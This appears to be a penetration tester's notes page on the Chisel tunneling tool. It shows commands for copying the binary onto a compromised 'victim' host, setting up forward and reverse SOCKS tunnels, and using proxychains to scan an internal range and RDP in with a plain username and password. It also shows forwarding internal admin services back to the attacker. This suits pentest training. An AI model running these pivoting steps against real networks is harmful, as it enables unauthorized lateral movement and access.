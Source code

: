 ```yaml
---
description: >-
  Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to
  transport data that is secured using SSH. Chisel can create a client-server
  connection in a firewall restricted environment.
---
```


# Chisel

<mark style="color:red;">**IMPORTANT:**</mark>** We need to be mindful of the size of files we transfer onto targets, not just for performance reasons but also considering detection. Some useful links to proceed:**

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

## **Installing Chisel**

### Clone Repository

```shell-session
attacker@kali$ git clone https://github.com/jpillora/chisel.git
```

### B**uilding the Chisel Binary**

```shell-session
attacker@kali$ cd chisel
go build
```

## Transfer Chisel Binary to Victim

**Transferring Chisel Binary with SCP, A Web Server, or other methods of choice.**

```shell-session
attacker@kali$ scp chisel victim@10.129.202.64:~/home/victim
```

## **Running Chisel Server - Jump Host Server**

**We start a chisel server for a client to connect to.**

```shell-session
victim@ubuntu$ ./chisel server -v -p 1234 --socks5
```

<mark style="color:red;">**NOTE:**</mark> This can be on jump host, kali host, or whichever host we need it for.&#x20;

Chisel will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and _**forward it to all the networks that are accessible on the pivot host.**_

## Running Chisel Client

<mark style="color:red;">**NOTE:**</mark> we can also run the chisel server on the Kali host.

```shell-session
attacker@kali$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

In the above output, the Chisel client creates a TCP/UDP tunnel via HTTP using SSH between the Chisel server and the client and starts a listener on local port 1080. _**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_\


```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot - Kali Server

In the previous example, we transfered a chisel binary to the compromised victim machine and started a listener on port 1234. Commonly, there will be scenarios where firewalls restrict inbound connections to our target. In such cases, we can use Chisel with the reverse tunnel option.

With the Chisel --reverse (-R) enabled, The server (attack host) will listen and accept connections and then be proxied through the client.

### S**tarting the Chisel Server on our Attack Host**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo ./chisel server --reverse -v -p 1234 --socks5
</strong></code></pre>

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

### C**onnecting the Chisel Client to our Attack Host**

```shell-session
victim@ubuntu$ ./chisel client -v <kali-ip>:1234 R:socks
```

_<mark style="color:red;">**NOTE:**</mark>** **<mark style="color:yellow;">**Chisel opens a port**</mark>** **<mark style="color:red;">**1080**</mark>** **<mark style="color:yellow;">**that we will use.**</mark>_

_**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_

```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Port Forwarding localhost Web Service (phpmyadmin)

If the server we popped a shell on is running phpmyadmin its work portforwarding back to our host.

```powershell
.\chisel.exe client 192.168.45.170:8081 R:8090:localhost:80
```

Navigating to localhost:8090, we can now access the admin portal

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### **Port Forwarding an Internal Web Service.**

Sometimes we may want to port foward a direct port back to our reverse port forward. We can use the syntax: **R:localport:remotehost:remoteport.**

<mark style="color:red;">**NOTE:**</mark> <mark style="color:yellow;">**This is useful if we want to access an internal**</mark>** **<mark style="color:red;">**web service**</mark>** **<mark style="color:yellow;">**on our local machine through 127.0.0.1**</mark>

```powershell
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80

2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

#### We can navigate to 127.0.0.1 and see the portforwarded web service

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We may need to upate our /etc/hosts to fit the domain name.

